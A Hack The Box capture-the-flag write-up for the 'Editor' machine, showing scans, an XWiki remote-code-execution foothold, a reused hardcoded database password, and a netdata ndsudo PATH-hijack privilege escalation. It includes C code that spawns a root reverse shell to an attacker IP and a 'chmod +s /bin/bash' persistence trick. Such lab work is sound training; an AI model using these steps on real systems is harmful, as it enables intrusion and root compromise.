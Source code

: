 Tags: #Linux/Ubuntu #Easy #Nginx #Hidden-Subdomains #Command-Injection #Hardcoded-Creds #Outdated-software #Path-Injection  
# **Nmap Results**

```text
Nmap scan report for 10.10.11.80
Host is up (0.019s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
|_http-server-header: Jetty(10.0.20)
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.25 seconds

```
<br>
<br>

# **Service Enumeration**
First look at the site:

![[Pasted image 20250804154212.png]]

There's an **xwiki** page on port 8080, which can also be accessed at **wiki.editor.htb**:

![[Pasted image 20250804154322.png]]

At the page's footer, the version is revealed to be **XWiki Debian 15.10.8**. 

The nmap scan found a `/robots.txt` page containing a bunch of pages that perform xwiki operations. Most of them redirect you to a login form:

![[Pasted image 20250804154521.png]]
<br>
<br>
# **Exploitation**
## **Initial Access**
After researching a while, I found a page on [ionix.io](https://www.ionix.io/blog/xwiki-remote-code-execution-vulnerability-cve-2025-24893/) explaining how this specific XWiki version has a parameter "text" that is vulnerable to RCE in the `/SolrSearch` page. 

There is also a POC script on this [GitHub](https://github.com/gunzf0x/CVE-2025-24893) page that was successful in executing a reverse shell, which logs us in as `xwiki`:

![[Pasted image 20250804171421.png]]

Enumeration for other useful info was difficult, as I kept coming back empty handed. All I knew was that I needed to log in as oliver after looking at the contents of /etc/passwd where lines end in "sh" (`cat /etc/passwd | grep sh$`):

```
root:x:0:0:root:/root:/bin/bash
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Eventually, I ran `grep -riH "password" .` and found some interesting lines:

```
./hibernate.cfg.xml:    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
./hibernate.cfg.xml:    <property name="hibernate.connection.password">xwiki</property>
./hibernate.cfg.xml:    <property name="hibernate.connection.password">xwiki</property>
./hibernate.cfg.xml:    <property name="hibernate.connection.password"></property>
./hibernate.cfg.xml:    <property name="hibernate.connection.password">xwiki</property>
./hibernate.cfg.xml:    <property name="hibernate.connection.password">xwiki</property>
./hibernate.cfg.xml:    <property name="hibernate.connection.password"></property>
```  

The password `theEd1t0rTeam99` ended up being valid for the user **oliver** via SSH.
<br>
<br>
# **Privilege Escalation**  
There's a program called "netdata" in the **/opt** directory. The following output of `ss -tulnp` shows open ports that are listening for connections:

![[Pasted image 20250804185849.png]]

Out of all of them, port 19999 is the one that netdata usually listens on, according to a quick google search and the netdata documentation. So now, we'll log out and log back into SSH with port forwarding configured to expose this port. 

This is what we see at `http://localhost:19999`:

![[Pasted image 20250804190143.png]]

Near the top, there's a notification urging us to update a node to the recommended version. If we click "Please update them", we see the target machine running netdata **v1.45.2**.

**CVE-2024-32019** describes a vulnerability in the `ndsudo` binary within this specific version. `ndsudo` allows the user to execute a restricted list of commands as root, but it relies on the PATH environment variable to find said commands. This means an attacker can create a malicious script and give it a name that `ndsudo` might expect, and execute it.

Create the following C script and compile it. Name the resulting binary "nvme":

```c
#include <unistd.h>  // for setuid, setgid, execl
#include <stddef.h>  // for NULL

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.23/9001 0>&1", NULL);
    return 0;
}

```

Copy the compiled binary to the target machine and make it executable. Before running ndsudo,  define a temporary PATH variable where the location of your malicious binary is placed before everything else (e.g `PATH=/dev/shm:$PATH`) 

Then in the directory where ndsudo is, run `PATH=/dev/shm:$PATH ./ndsudo nvme-list`:

![[Pasted image 20250804221340.png]]

> [!tip] SUID Bit and Interpreted Scripts
> Initially, I tried creating a bash script with the following content:
> ```bash
> #!/bin/bash
>
> bash -i
> ```
> I put it in `/dev/shm`, temporarily defined PATH with that directory in the front, and executed `ndsudo nvme-list`. However, I got a shell as the current user. The root privileges that `ndsudo` had didn't carry over to the shell script because of a kernel security policy and the way bash is designed.
> 
> When an executable has an SUID bit, it gives the user running it the privileges of who owns it, usually root.
>
>The kernel policy prevents **interpreted** scripts with an SUID/SGID bit from inheriting the privileges of the owner by **removing that bit** before execution. This is because they can be susceptible to race conditions, and if a legitimate script is swapped for a malicious one at the right time, the latter will execute. This was never a problem for us, but it's important to note.
> 
> Furthermore, Bash checks whether the EUID (Effective UID) and RUID (Real UID) match before executing any script, and if they don't match, it will **automatically reset** the EUID back to the unchanged RUID. This is what stopped `bash -i` from inheriting root privs.
> 
> It is possible to make a bash script work though, you'd have to invoke the interpreter with the `-p` flag, telling bash to not drop any privileges and give `/bin/bash` an SUID bit:
>```bash
>#!/bin/bash -p
>
>chmod +s /bin/bash
>```
>Then execute `bash -pi` in the terminal and you get a root shell
>
> With binaries it's different, as there's no interpreter to begin with, so it just inherits the EUID (effective UID) of the parent process, which is 0, and runs as root. In our case with the compiled C script, you just have to make sure you invoke `setuid(0)` and `setgid(0)`. Neither the kernel security policy nor bash's internal design can prevent this. In fact, if you're not using bash, the privileges **won't** be dropped at all. That feature is unique.
<br>
<br>
# Skills Learned
* `grep` can recursively search through files with the `-r` flag, but to know where a potential match comes from, you should also specify the `-H` flag.
* When dealing with Java apps or XML and you have user, try recursively grepping "password" in some areas. 
<br>
<br>
# Proof of Pwn
https://labs.hackthebox.com/achievement/machine/391579/684